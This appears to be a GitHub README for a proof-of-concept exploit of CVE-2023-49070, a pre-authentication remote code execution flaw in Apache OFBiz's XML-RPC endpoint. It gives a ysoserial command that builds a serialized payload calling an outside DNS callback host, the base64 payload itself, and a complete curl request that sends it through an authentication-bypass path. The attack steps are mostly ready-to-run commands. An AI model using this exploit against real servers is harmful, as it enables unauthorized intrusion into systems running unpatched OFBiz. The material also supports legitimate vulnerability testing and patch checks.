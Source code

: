 # Apache Ofbiz Pre-auth RCE (CVE-2023-49070)

## Affected versions

- Apache OFBiz before 18.12.10

Description:

Pre-auth RCE in Apache Ofbiz 18.12.09.

It's due to XML-RPC no longer maintained still present.
This issue affects Apache OFBiz: before 18.12.10. 
Users are recommended to upgrade to version 18.12.10

This issue is being tracked as OFBIZ-12812 

## Usage

Start the ofbiz with

```bash
docker-compose up
```

craft a poc with ysoserial

```bash
java -jar ysoserial.jar URLDNS "http://ktcajftmul.dgrh3.cn" | base64 | tr -d "\n"
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IADGphdmEubmV0LlVSTJYlNzYa/ORyAwAHSQAIaGFzaENvZGVJAARwb3J0TAAJYXV0aG9yaXR5dAASTGphdmEvbGFuZy9TdHJpbmc7TAAEZmlsZXEAfgADTAAEaG9zdHEAfgADTAAIcHJvdG9jb2xxAH4AA0wAA3JlZnEAfgADeHD//////////3QAE2t0Y2FqZnRtdWwuZGdyaDMuY250AABxAH4ABXQABGh0dHBweHQAGmh0dHA6Ly9rdGNhamZ0bXVsLmRncmgzLmNueA==
```

send it to `https://localhost:8443/webtools/control/xmlrpc`

```
$ curl https://localhost:8443/webtools/control/xmlrpc;/?USERNAME=&PASSWORD=s&requirePasswordChange=Y -X POST -v -d '<?xml version="1.0"?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAx3CAAAABAAAAABc3IADGphdmEubmV0LlVSTJYlNzYa/ORyAwAHSQAIaGFzaENvZGVJAARwb3J0TAAJYXV0aG9yaXR5dAASTGphdmEvbGFuZy9TdHJpbmc7TAAEZmlsZXEAfgADTAAEaG9zdHEAfgADTAAIcHJvdG9jb2xxAH4AA0wAA3JlZnEAfgADeHD//////////3QAE2t0Y2FqZnRtdWwuZGdyaDMuY250AABxAH4ABXQABGh0dHBweHQAGmh0dHA6Ly9rdGNhamZ0bXVsLmRncmgzLmNueA==</serializable></value></member></struct></value></param></params></methodCall>' -k  -H 'Content-Type:application/xml'
```

## Reference

1. https://seclists.org/oss-sec/2023/q4/257
2. https://x.com/Siebene7/status/1731870759130427726?s=20